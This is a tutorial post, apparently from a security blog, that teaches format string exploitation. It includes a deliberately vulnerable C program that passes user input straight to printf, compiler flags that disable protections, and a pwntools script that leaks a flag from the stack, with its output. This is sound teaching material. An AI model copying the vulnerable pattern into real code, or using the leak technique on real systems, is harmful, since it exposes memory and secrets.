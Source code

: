 ```yaml
---
author: pl4int3xt
layout: post
title: F0rmat strings - Reading arbitrary memory locations
date: '2024-01-16'
description: "Learn how to leak values from the stack using format strings vulnerability"
categories: [Binary Exploitation 101]
tags: [binary exploitation]
---
```


## Introduction
A format strings vulnerability occurs when a program uses user-supplied input as the format string parameter in a formatted output function without proper validation or sanitation. The most common functions where format string vulnerabilities can occur are `printf`, `sprintf`, `fprintf`, and `scanf` from the C Standard Library. An attacker can read/write arbitrary memory locations,they can input `%x %x %x %x` to leak values from the stack, or use `%n` to perform arbitrary writes. 

Let's try leaking the flag.txt from the code below
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("We will evaluate any format string you give us with printf().");
  
  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("flag.txt is missing!\n");
    exit(0);
  }
  
  fgets(flag, sizeof(flag), file);
  
  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }  
  return 0;
}
```

Let's compile the code to an executable binary and remove some protections. The code is dynamically linked and its not stripped.

```shell
gcc format.c -o format -fno-stack-protector -no-pie
```

Running checksec we see everything is disabled except NX 

```shell
pl4int3xt@archlinux ~/D/p/shellcode> checksec --file=format
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified    Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   33 Symbols        No    0   2format
```

The code is vulnerable to format strings and hence we can leak memory addresses from the stack 

```shell
pl4int3xt@archlinux ~/D/p/shellcode> ./format
We will evaluate any format string you give us with printf().
> name
name
> %x %x %x %x %x
78252078 fbad2288 78252078 40649f 0
> %p %p %p %p %p
0x2070252070252070 0xfbad2288 0xa70252070252070 0x40649f (nil)
> 
```

Let's write a custom script to try and leak value from the stack

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./format', checksec=False)

# Let's fuzz 100 values
for i in range(50):
    try:
        # Create process (level used to reduce noise)
        p = process(level='error')
        # When we see the user prompt '>', format the counter
        # e.g. %2$s will attempt to print second pointer as string
        p.sendlineafter(b'> ', '%{}$s'.format(i).encode())
        # Receive the response
        result = p.recvuntil(b'> ')
        # Check for flag
        # if("flag" in str(result).lower()):
        print(str(i) + ': ' + str(result))
        # Exit the process
        p.close()
    except EOFError:
        pass
```

The code will loop 50 times. Running the code we are able to leak the flag from the stack

```shell
pl4int3xt@archlinux ~/D/p/shellcode> python3 fuzz.py
0: b'%0$s\n> '
4: b'\n> '
6: b'K\xe8\xff\xff\xff\x7f\n> '
17: b'(null)\n> '
18: b'(null)\n> '
19: b'(null)\n> '
20: b'(null)\n> '
21: b'(null)\n> '
22: b'(null)\n> '
23: b'(null)\n> '
24: b'(null)\n> '
25: b'\x88$\xad\xfb\n> '
27: b'flag{f0rm4t_string5_4r3_d4ng3r0u5}\n\n> '
29: b'\x89\xc7\xe8\x19\x91\x01\n> '
30: b'\x08\xe5\xff\xff\xff\x7f\n> '
31: b'UH\x89\xe5H\x81\xec\xb0\n> '
33: b'K\xe8\xff\xff\xff\x7f\n> '
34: b'K\xe8\xff\xff\xff\x7f\n> '
36: b'(null)\n> '
37: b'z\xe8\xff\xff\xff\x7f\n> '
38: b'\xd0\xe2\xff\xf7\xff\x7f\n> '
39: b'`\x11@\n> '
42: b'(null)\n> '
43: b'(null)\n> '
44: b'(null)\n> '
45: b'K\xe8\xff\xff\xff\x7f\n> '
48: b'(null)\n> '
49: b'L\x8b5\xef\x01\x1b\n> '
```